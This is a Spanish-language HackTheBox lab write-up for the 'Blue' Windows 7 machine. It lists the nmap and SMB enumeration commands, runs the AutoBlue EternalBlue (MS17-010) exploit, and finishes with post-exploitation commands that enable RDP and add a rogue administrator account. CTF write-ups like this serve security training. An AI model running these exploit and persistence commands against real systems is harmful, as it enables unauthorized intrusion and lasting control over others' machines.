






HackTheBox
Easy
Windows
SMB
EternalBlue
MS17-010
Blue
Windows 7 vulnerable a EternalBlue (MS17-010); explotacion con AutoBlue para obtener SYSTEM directamente.
cat4clysm
Herramientas utilizadas
nmap
searchsploit
msfvenom
AutoBlue
Scanning
root@kali:~$
nmap -sC -sV -p 135,139,445,49154,49153,49152,49156,49155 -Pn -n 10.10.10.40 -oN targeted
Enumeracion SMB
root@kali:~$
smbclient -N -L //10.10.10.40
smbmap -H 10.10.10.40 -u anonymous
nmap -p445 10.10.10.40 --script="smb-vuln*" -Pn
Explotacion - EternalBlue (AutoBlue)
root@kali:~$
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
python eternal_checker.py 10.10.10.40
root@kali:~$
cd shellcode
./shell_prep.sh

root@kali:~$
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
Post-Explotacion
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
net user gato 12345 /add
net localgroup administrators gato /add
rdesktop 10.10.10.40Lecciones aprendidas
- EternalBlue (MS17-010) es una de las vulnerabilidades mas criticas para Windows 7/Server 2008.
- Siempre verificar SMB con nmap --script smb-vuln* para detectar vulnerabilidades conocidas.
- AutoBlue es una alternativa eficaz a Metasploit para explotar EternalBlue manualmente.